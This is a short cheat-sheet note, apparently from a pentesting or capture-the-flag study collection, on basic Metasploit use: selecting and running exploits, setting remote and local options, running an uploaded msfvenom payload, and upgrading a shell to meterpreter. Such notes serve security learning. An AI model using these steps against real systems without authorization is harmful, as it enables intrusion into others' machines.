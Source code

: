1. Basic metasploit

Metasploit is a tool designed to make hacking easier. The free version is 100% command based and easily detected by antivirus solutions nowadays so don't assume it'll work on boxes with antiviruses.

## Basic flow:
`msfconsole` to start metasploit
`search SEARCH TERM` to look through exploits
`use EXPLOIT`
- Exploit can be either the full path like exploit/multi/handler or can be a number from a search

`options` shows the options. Set the options with `set OPTION VALUE` like `set RHOSTS 10.10.10.10`. Anything that starts with R is the remote machine and L is the local machine. RHOSTS vs RHOST: RHOST can only run against one machine at once while RHOSTS can run against multiple machines

`run` to run the exploit. This may take some time, and sometimes exploits will just not work the first time.

If you get a shell, most likely you will get a meterpreter shell. See the meterpreter note for help using meterpreter.

## Getting a metasploit shell from a simple reverse shell
See Basic msfvenom for how to do this. Use the elf payload for linux (`chmod +x shell.elf; ./shell.elf`) or the exe payload for windows and upload it using one of the methods in the File transfer note.

## Upgrading a simple shell to meterpreter
Note: this is only if you have a shell within metasploit that isn't meterpreter.
1. `background` or `^Z` to background the session.
2. `sessions` and get the session number
3. `use post/multi/manage/shell_to_meterpreter`
4. `options` and set the session to the session # and the LPORT to an unused port
5. `run` and you should see a new meterpreter session open. Your original shell may die but now you have a meterpreter shell! There is the off-chance that this will fail and the shell dies, just FYI